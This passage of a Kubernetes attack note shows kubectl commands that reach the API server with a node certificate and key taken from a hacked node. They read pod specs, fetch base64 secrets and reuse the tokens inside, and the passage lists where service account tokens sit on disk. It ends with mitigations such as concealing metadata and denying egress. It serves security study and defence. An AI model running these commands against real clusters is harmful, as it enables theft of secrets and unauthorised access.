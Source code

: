 Access API server:

```bash
kubectl --client-certificate node2.crt --client-key k8shack.key --certificate-authority apiserver.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get pods -o wide
```

- following the steps above provide access to API as `system:nodes` group
- `system:nodes` group allows pod scheduling and viewing secrets
    - note that you can get secrets, but you can’t list them
- secret names can be found from pod spec:

```bash
kubectl --client-certificate node2.crt --client-key k8shack.key --certificate-authority apiserver.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get pod <POD_NAME> -o yaml
```

Get secret:

```bash
kubectl --client-certificate node2.crt --client-key k8shack.key --certificate-authority apiserver.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get secret <SECRET_NAME> -o yaml
```

- secret is base64 encoded
- if the secret contains a token, you can use it in `kubectl` with the `--token` flag, for example:

```bash
kubectl --certificate-authority ca.crt --token <TOKEN> --server https://<MASTER_IP> get all
```

- check if you can access other pods using `exec`

### Service Account Token

Service account token in one of the following locations: 

`/var/run/secrets/kubernetes.io/serviceaccount/token` or `/run/secrets/kubernetes.io/serviceaccount/token`

### Mitigations

****************************************Metadata Concealment****************************************

- hide `kube-env` value
    
    (see the [official Google Cloud document](https://cloud.google.com/kubernetes-engine/docs/how-to/protecting-cluster-metadata) for Kubernetes metadata protection)
    
- use **`--workload-metadata-from-node=SECURE`** to conceal metadata
    - will return “This metada endpoint is concelead” when querying `http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env`

****************************Network Policy****************************

- deny egress by default, whitelist only necessary egress traffic
- applied to pods since
- block metadata service if not needed
